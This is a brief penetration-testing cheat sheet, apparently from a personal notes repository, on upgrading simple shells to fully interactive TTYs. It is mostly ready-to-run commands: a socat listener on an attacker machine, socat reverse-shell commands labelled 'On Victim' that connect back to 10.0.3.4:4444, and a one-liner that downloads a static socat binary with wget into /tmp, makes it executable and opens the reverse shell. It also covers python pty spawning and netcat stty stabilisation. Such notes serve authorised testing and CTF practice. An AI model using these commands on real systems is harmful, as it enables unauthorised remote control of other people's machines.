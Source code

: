 # TTY

## Cheatsheets
- https://netsec.ws/?p=337
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell

## web ttys
- https://github.com/maxmcd/webtty

## python
```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

## socat
On Kali (listen):
```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
```

On Victim (launch):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## netcat
Send `nc` to background
Check the term name and size on local machine with:
```
echo $TERM
stty -a
```
```
stty raw -echo  
```
`fg` to being `nc` back up
```
reset
export SHELL=bash
export TERM=xterm
stty rows 38 columns 116
```

Row and column values are found using `stty -a`.

> https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
